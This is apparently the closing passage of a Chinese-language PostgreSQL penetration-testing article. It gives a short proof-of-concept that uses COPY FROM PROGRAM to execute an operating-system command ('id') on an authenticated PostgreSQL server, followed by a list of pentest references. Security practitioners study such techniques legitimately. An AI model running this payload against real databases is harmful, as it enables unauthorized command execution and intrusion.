 **相关文章**  
\- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

**POC | Payload | exp**

```bash
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

[![3.png](assets/1710208076-febf9cfd97fa237dda385eebb1f1fbcc.png)](https://storage.tttang.com/media/attachment/2022/04/13/afe50a76-1cae-4e11-b5c0-3f1058fd175e.png)

- - -

# [0x07 参考](#toc_0x07)

-   [https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/%E6%B8%97%E9%80%8F%E4%B8%AD%E5%88%A9%E7%94%A8postgresql%20getshell/)
-   [https://github.com/safe6Sec/PentestDB/blob/master/PostgreSQL.md](https://github.com/safe6Sec/PentestDB/blob/master/PostgreSQL.md)
-   [https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql\_hacking.md](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)
-   [https://hakin9.org/a-penetration-testers-guide-to-postgresql/](https://hakin9.org/a-penetration-testers-guide-to-postgresql/)
-   [https://tttang.com/archive/854/](https://tttang.com/archive/854/)
-   [https://valleylord.github.io/post/201410-postgres-plpython-install/](https://valleylord.github.io/post/201410-postgres-plpython-install/)
-   [https://www.unix-ninja.com/p/postgresql\_for\_red\_teams](https://www.unix-ninja.com/p/postgresql_for_red_teams)
-   [https://pulsesecurity.co.nz/articles/postgres-sqli](https://pulsesecurity.co.nz/articles/postgres-sqli)
-   [https://book.hacktricks.xyz/pentesting/pentesting-postgresql](https://book.hacktricks.xyz/pentesting/pentesting-postgresql)
-   [https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql\_hacking.md](https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md)
-   [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md)
-   [https://www.freebuf.com/articles/database/270106.html](https://www.freebuf.com/articles/database/270106.html)
-   [https://mp.weixin.qq.com/s/I5hDjIEzn0rKA9aCZsJw9w](https://mp.weixin.qq.com/s/I5hDjIEzn0rKA9aCZsJw9w)
-   [https://xz.aliyun.com/t/10202](https://xz.aliyun.com/t/10202)
